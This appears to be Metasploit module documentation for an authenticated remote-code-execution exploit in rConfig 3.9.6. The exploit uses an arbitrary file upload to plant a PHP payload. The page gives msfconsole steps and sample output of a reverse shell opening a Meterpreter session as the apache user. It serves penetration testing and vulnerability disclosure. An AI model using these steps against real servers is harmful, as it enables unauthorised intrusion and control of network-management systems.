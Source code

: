 ## Vulnerable Application

### Description

This module allows an attacker with a privileged rConfig account to start a reverse shell due to an
arbitrary file upload vulnerability in `/lib/crud/vendors.crud.php`. Then, the uploaded payload can be
triggered by a call to `images/vendor/<payload_file>.php`

### Installation

Vulnerable versions of rConfig can be downloaded from [here](https://www.cacti.net/downloads/). Then,
help yourself with [this](https://help.rconfig.com/gettingstarted/installation) installation guide.
You can also use this [docker file](https://hub.docker.com/r/libyerman/rconfig)
(as long as it is not updated and remains a 3.9.6 version of rConfig)

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/linux/http/rconfig_authenticated_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of rConfig web server is different from `/`
6. `check` to check if the targeted rConfig server is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on CentOS 7 with rConfig 3.9.6. See the following output :

```
msf6 exploit(rconfig_authenticated_rce) > run

[*] Started reverse TCP handler on X.X.X.X:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 3.9.6 of rConfig found !
[+] The target is vulnerable.
[+] We successfully logged in !
[*] Uploading file 'uaxsv.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to Y.Y.Y.Y
[*] Meterpreter session 13 opened (X.X.X.X:4444 -> Y.Y.Y.Y:38310) at 2021-06-17 14:41:00 +0200

meterpreter > getuid
Server username: apache (48)
```
